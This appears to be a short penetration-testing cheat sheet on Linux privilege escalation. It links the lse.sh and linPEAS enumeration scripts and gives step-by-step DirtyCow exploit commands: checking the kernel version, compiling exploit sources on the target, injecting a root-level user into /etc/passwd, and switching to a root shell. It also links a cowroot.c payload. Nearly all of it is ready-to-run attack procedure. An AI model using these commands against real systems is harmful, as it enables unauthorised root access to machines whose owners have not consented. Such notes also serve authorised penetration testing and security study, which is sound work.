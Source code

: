 # Automate search for vulnerabilities
https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh  
https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh  

# DirtyCow
```
# vulnerable kernel versions: 2.6.22 - 4.8.3, 4.7.9, 4.4.26
uname -a
```

## Compile on target 40611.c
```
gcc -pthread 40611.c -o dirtyc0w
```

### Add new user and password to /etc/passwd
```
./dirtyc0w /etc/passwd "<user>:$(openssl passwd -1 -salt <user> <password>):0:0:root:/bin/bash" &
```

### Change to root shell
```
su <user>
```

## Compile on target 40839.c
```
gcc -pthread 40839.c -o dirty -lcrypt
```

### Append new user to /etc/passwd
```
./dirty <password> /etc/passwd
```

### Change to root shell
```
su firefart
```

## (Un)comment correct payload first (x86 or x64) - compile on target 
```
https://gist.githubusercontent.com/rverton/e9d4ff65d703a9084e85fa9df083c679/raw/9b1b5053e72a58b40b28d6799cf7979c53480715/cowroot.c
gcc cowroot.c -o cowroot -pthread
```
